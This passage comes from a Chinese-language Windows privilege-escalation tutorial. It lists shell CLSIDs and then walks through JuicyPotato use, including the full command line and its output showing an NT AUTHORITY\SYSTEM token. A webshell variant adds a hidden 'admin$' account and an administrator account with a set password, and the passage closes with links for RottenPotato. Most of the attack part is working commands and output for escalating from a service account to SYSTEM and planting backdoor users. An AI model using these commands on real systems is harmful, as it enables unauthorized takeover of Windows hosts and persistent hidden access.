    ```CLSID
   shell:::{d34a6ca6-62c2-4c34-8a7c-14709c1ad938}
   CompressedFolder
   shell:::{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}
   连接到
   shell:::{38A98528-6CBF-4CA9-8DC0-B1E1D10F7B1B}
   控制面板
   shell:::{26EE0668-A00A-44D7-9371-BEB064C98683}
   控制面板
   shell:::{5399E694-6CE5-4D6C-8FCE-1D8870FDCBA0}
   凭据管理器
   shell:::{1206F5F1-0569-412C-8FEC-3204630DFB70}
   ```

   上述CLSID中的部分内容可以直接使用“运行”来进入，比如系统设置类；也有一些内容无法直接进入，需要各位用户注意。

   可以通过命令提示符的`start`命令来调用以及API函数的`ShellExecute`来调用。

4. 选择监听端口

   选择一个系统未占用的端口作为监听端口

   最终执行命令如下

   ```shell
   C:/test/ >juicypotato.exe -t * -p "cmd.exe" -l 9001 -c {4991d34b-80a1-4291-83b6-
   3328366b9097}
   Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9001
   ......
   [+] authresult 0
   {4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
   [+] CreateProcessWithTokenW OK
   
   -t * : SeImpersonate权限和SeAssignPrimaryToken权限都开启
   -p "cmd.exe" : 指定创建的进程
   -l 9001 : 指定监听端口
   -c {4991d34b-80a1-4291-83b6-3328366b9097} : 指定使用的CLSID
   ```

   执行成功，弹出`cmd.exe`窗口，成功得到`NT AUTHORITY\SYSTEM`权限

5. Webshell版添加用户

   利用`JuicyPotato`以`system`权限执行添加用户命令

   ```bash
   JuicyPotato-ws.exe -p net user admin$ password
   JuicyPotato-ws.exe -p "net user admin abc123! /add"
   ```

#### RottenPotato

将服务帐户本地提权至SYSTEM

> https://github.com/foxglovesec/RottenPotato
>
> https://github.com/breenmachine/RottenPotatoNG

